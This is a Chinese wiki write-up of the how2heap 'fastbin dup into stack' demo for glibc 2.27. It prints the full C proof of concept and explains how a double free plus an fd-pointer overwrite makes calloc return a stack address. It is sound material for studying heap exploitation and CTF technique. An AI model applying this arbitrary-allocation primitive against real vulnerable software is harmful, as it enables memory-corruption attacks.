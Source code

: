 ```yaml
---
title: fastbin dup into stack
description: 
published: true
date: 2022-10-04T15:00:16.567Z
tags: pwn, 堆利用
editor: markdown
dateCreated: 2022-10-04T14:26:47.512Z
---
```


# 源码
```c
#include <stdio.h>
#include <stdlib.h>
#include <assert.h>

int main()
{
        fprintf(stderr, "This file extends on fastbin_dup.c by tricking calloc into\n"
               "returning a pointer to a controlled location (in this case, the stack).\n");


        fprintf(stderr,"Fill up tcache first.\n");

        void *ptrs[7];

        for (int i=0; i<7; i++) {
                ptrs[i] = malloc(8);
        }
        for (int i=0; i<7; i++) {
                free(ptrs[i]);
        }


        unsigned long long stack_var;

        fprintf(stderr, "The address we want calloc() to return is %p.\n", 8+(char *)&stack_var);

        fprintf(stderr, "Allocating 3 buffers.\n");
        int *a = calloc(1,8);
        int *b = calloc(1,8);
        int *c = calloc(1,8);

        fprintf(stderr, "1st calloc(1,8): %p\n", a);
        fprintf(stderr, "2nd calloc(1,8): %p\n", b);
        fprintf(stderr, "3rd calloc(1,8): %p\n", c);

        fprintf(stderr, "Freeing the first one...\n"); //First call to free will add a reference to the fastbin
        free(a);

        fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);

        fprintf(stderr, "So, instead, we'll free %p.\n", b);
        free(b);

        //Calling free(a) twice renders the program vulnerable to Double Free

        fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
        free(a);

        fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
                "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
        unsigned long long *d = calloc(1,8);

        fprintf(stderr, "1st calloc(1,8): %p\n", d);
        fprintf(stderr, "2nd calloc(1,8): %p\n", calloc(1,8));
        fprintf(stderr, "Now the free list has [ %p ].\n", a);
        fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
                "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
                "so that calloc will think there is a free chunk there and agree to\n"
                "return a pointer to it.\n", a);
        stack_var = 0x20;

        fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
        /*VULNERABILITY*/
        *d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
        /*VULNERABILITY*/

        fprintf(stderr, "3rd calloc(1,8): %p, putting the stack address on the free list\n", calloc(1,8));

        void *p = calloc(1,8);

        fprintf(stderr, "4th calloc(1,8): %p\n", p);
        assert(p == 8+(char *)&stack_var);
        // assert((long)__builtin_return_address(0) == *(long *)p);
}
```
# 解析
## 前期准备
源码13至25行如下所示
```c
void *ptrs[7];

for (int i=0; i<7; i++) {
    ptrs[i] = malloc(8);
}
for (int i=0; i<7; i++) {
    free(ptrs[i]);
}


unsigned long long stack_var;

fprintf(stderr, "The address we want calloc() to return is %p.\n", 8+(char *)&stack_var);
```
这里就是将tcache填充满，然后定义了栈中的一个地址，后面将要在这个地址的高一个内存单元上申请一个堆块。

## 触发double free
源码27至50行如下所示
```c
fprintf(stderr, "Allocating 3 buffers.\n");
int *a = calloc(1,8);
int *b = calloc(1,8);
int *c = calloc(1,8);

fprintf(stderr, "1st calloc(1,8): %p\n", a);
fprintf(stderr, "2nd calloc(1,8): %p\n", b);
fprintf(stderr, "3rd calloc(1,8): %p\n", c);

fprintf(stderr, "Freeing the first one...\n"); //First call to free will add a reference to the fastbin
free(a);

fprintf(stderr, "If we free %p again, things will crash because %p is at the top of the free list.\n", a, a);

fprintf(stderr, "So, instead, we'll free %p.\n", b);
free(b);

//Calling free(a) twice renders the program vulnerable to Double Free

fprintf(stderr, "Now, we can free %p again, since it's not the head of the free list.\n", a);
free(a);

fprintf(stderr, "Now the free list has [ %p, %p, %p ]. "
        "We'll now carry out our attack by modifying data at %p.\n", a, b, a, a);
```
这里用`calloc`申请了三个堆块，然后触发chunk a的二次释放。在源码50行下断点，这时fastbin如下图所示：

![p1.png](/how2heap/glibc2.27/fastbin_dup_into_stack/p1.png)

## 修改fd指针
源码51至64行如下所示
```c
unsigned long long *d = calloc(1,8);

fprintf(stderr, "1st calloc(1,8): %p\n", d);
fprintf(stderr, "2nd calloc(1,8): %p\n", calloc(1,8));
fprintf(stderr, "Now the free list has [ %p ].\n", a);
fprintf(stderr, "Now, we have access to %p while it remains at the head of the free list.\n"
        "so now we are writing a fake free size (in this case, 0x20) to the stack,\n"
        "so that calloc will think there is a free chunk there and agree to\n"
        "return a pointer to it.\n", a);
stack_var = 0x20;

fprintf(stderr, "Now, we overwrite the first 8 bytes of the data at %p to point right before the 0x20.\n", a);
/*VULNERABILITY*/
*d = (unsigned long long) (((char*)&stack_var) - sizeof(d));
```
第一次申请，将链表头节点的chunk a申请出来，赋给指针d。再将chunk b申请出来，此时链表头节点还是chunk a。这里将`stack_var`赋值为0x20为的是和fastbin单链表中的chunk的大小保持一致，这样后面才能成功将chunk申请到栈上。然后将chunk d（也就是chunk a）的fd指针赋值为`stack_var`低一个内存单元的地址（也就是目标chunk的头节点地址）。可以难以理解，在源码62行下断点，调试一下便知，如下图所示：

![p2.png](/how2heap/glibc2.27/fastbin_dup_into_stack/p2.png)

执行完60行后`stack_var`的值为0x20，所在地址为`0x7fffffffe320`。chunk b(chunk a)的fd指针上还为空。然后步过执行第64行后，如下图所示：

![p3.png](/how2heap/glibc2.27/fastbin_dup_into_stack/p3.png)

可以看到这时chunk b(chunk a)的fd指针为`stack_var`低一个内存单元的地址，而且该地址被链入到了fastbin中。

## 申请堆块
源码67至72行如下所示
```c
fprintf(stderr, "3rd calloc(1,8): %p, putting the stack address on the free list\n", calloc(1,8));

void *p = calloc(1,8);

fprintf(stderr, "4th calloc(1,8): %p\n", p);
assert(p == 8+(char *)&stack_var);
```
这里第三次申请堆块，将链表头节点chunk b(chunk a)申请出来，这时链表头节点变为栈上的目标地址。后面再次申请堆块`p`，size检查通过后，返回fastbin链表的头节点chunk，此时堆块就被分配到了栈上。在71行下断点调试，如下图所示：

![p4.png](/how2heap/glibc2.27/fastbin_dup_into_stack/p4.png)

可以看出指针`p`的值就是`stack_var`高一个内存单元的地址，也就是申请到栈上的堆块的用户空间地址。

# 总结
在题目中，fastbin double free配合UAF就可以做到本demo中的效果，结果就是可以在任意地址申请chunk，从而能够修改任意地址的内容。
> 前提还得找到合适的size，这样才能然后检查，成功分配chunk。
